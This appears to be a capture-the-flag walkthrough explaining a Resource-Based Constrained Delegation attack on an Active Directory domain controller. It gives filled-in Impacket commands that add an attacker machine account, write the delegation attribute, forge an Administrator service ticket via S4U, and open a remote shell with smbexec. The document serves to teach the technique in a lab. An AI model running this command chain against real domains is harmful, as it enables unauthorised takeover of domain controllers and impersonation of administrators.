





The attack is called **Resource-Based Constrained Delegation (RBCD)**.

## What is happening?
The key relationship is:



`user` has permission to modify the DC's:

```text
msDS-AllowedToActOnBehalfOfOtherIdentity
```

attribute.

That attribute controls **which computer accounts are trusted to impersonate users to a particular computer**.

The attack turns that permission into:


---

## 1. Create a Controlled Machine Account

**Syntax:**
```bash
addcomputer.py -computer-name '<computer$>' -computer-pass '<computer_password>' -dc-host <DC> -domain-netbios <NETBIOS_DOMAIN> '<domain>/<user>:<password>'
```

**Example:**
```bash
addcomputer.py -computer-name 'ATTACKERSYSTEM$' \
  -computer-pass 'Pwned123@!' \
  -dc-host DC01 \
  -domain-netbios ctf.local \
  'ctf.local/user:pass'
```

You create:
```text
ATTACKERSYSTEM$
```

This is a computer account that you control.

You now have credentials for this machine account:
```text
ATTACKERSYSTEM$:Pwned123@!
```

---

## 2. Configure RBCD on the DC

**Syntax:**
```bash
rbcd.py -dc-ip <DC_IP> -delegate-from '<controlled_computer$>' -delegate-to '<target_computer$>' -action 'write' '<domain>/<user>:<password>'
```

**Example:**
```bash
rbcd.py \
  -dc-ip 10.112.190.54 \
  -delegate-from 'ATTACKERSYSTEM$' \
  -delegate-to 'DC01$' \
  -action 'write' \
  'ctf.local/user:pass'
```

Conceptually, this changes the DC's:
```text
msDS-AllowedToActOnBehalfOfOtherIdentity
```

to allow:
```text
ATTACKERSYSTEM$
```

The relationship becomes:



In other words:
> **DC01 trusts ATTACKERSYSTEM$ to act on behalf of users.**

This is the core of the **RBCD attack**.

---

## 3. Abuse Kerberos S4U

**Syntax:**
```bash
getST.py -spn '<SPN>' -impersonate '<user_to_impersonate>' '<domain>/<controlled_computer$>:<computer_password>'
```

**Example:**

```bash
getST.py \
  -spn 'cifs/DC01.ctf.local' \
  -impersonate 'Administrator' \
  'ctf.local/ATTACKERSYSTEM$:Pwned123@!'
```

This is where **S4U2Self + S4U2Proxy** come into play.

Conceptually:



The result is a Kerberos service ticket for:
```text
cifs/DC01.ctf.local
```

while representing:
```text
Administrator
```

You are **not obtaining Administrator's password**.

You are obtaining a **Kerberos service ticket representing Administrator**.

---

## 4. Use the Kerberos Ticket

Set the `KRB5CCNAME` environment variable to the generated `.ccache` file:
```bash
export KRB5CCNAME=Administrator@cifs_DC01.ctf.local@CTF.LOCAL.ccache
```

`KRB5CCNAME` tells Kerberos-aware tools where the credential cache is located.

Instead of:
```text
username + password
```

subsequent tools can authenticate using:
```text
Kerberos ticket
```

---

## 5. Use the Ticket Against SMB

```bash
smbexec.py -k -no-pass ctf.local/Administrator@DC01.ctf.local
```

Important options:
```text
-k        Use Kerberos authentication
-no-pass  Don't ask for a password
```

The complete authentication flow is:


## Important Distinction

**RBCD is not the same as stealing Administrator credentials.**

The attack abuses a **delegation trust relationship** in Active Directory to obtain a Kerberos service ticket for a privileged identity.

|Component|Role|
|---|---|
|`AddAllowedToAct`|Permission that enables modifying the DC's RBCD configuration|
|`ATTACKERSYSTEM$`|Attacker-controlled computer account|
|`msDS-AllowedToActOnBehalfOfOtherIdentity`|Attribute used to configure RBCD|
|S4U2Self|Obtain a service ticket representing another user|
|S4U2Proxy|Obtain a ticket to a target service using delegation|
|`Administrator`|User being impersonated|
|`cifs/DC01...`|Target service|
|`.ccache`|Stores the obtained Kerberos ticket|
|`smbexec.py`|Uses the ticket to access the DC|

### In one sentence
> **RBCD abuses control over `msDS-AllowedToActOnBehalfOfOtherIdentity` to make an attacker-controlled computer account trusted for delegation, then uses Kerberos S4U2Self/S4U2Proxy to impersonate a privileged user to a target service.**
